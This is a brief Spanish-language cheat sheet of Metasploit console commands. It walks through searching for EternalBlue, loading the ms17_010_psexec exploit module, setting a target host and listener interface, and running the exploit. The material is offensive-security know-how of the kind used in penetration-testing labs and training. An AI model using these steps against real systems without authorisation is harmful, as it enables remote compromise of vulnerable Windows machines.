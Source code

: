 # Metasploit
Una de las herramientas más potentes en pruebas de penetración. Contiene miles de exploits, payloads, módulos de escaneo y post-explotación.

**Comandos:**

- Abrir:  
  `msfconsole`

- Buscar exploits por nombre o CVE:  
  `search exploit eternalblue`

- Usar un módulo:  
  `use exploit/windows/smb/ms17_010_psexec`

- Configurar opciones necesarias:  
  `set RHOSTS 10.10.10.40`  
  `set LHOST tun0`

- Verificar si es vulnerable (si el módulo lo permite):  
  `check`

- Ejecutar el exploit:  
  `exploit`




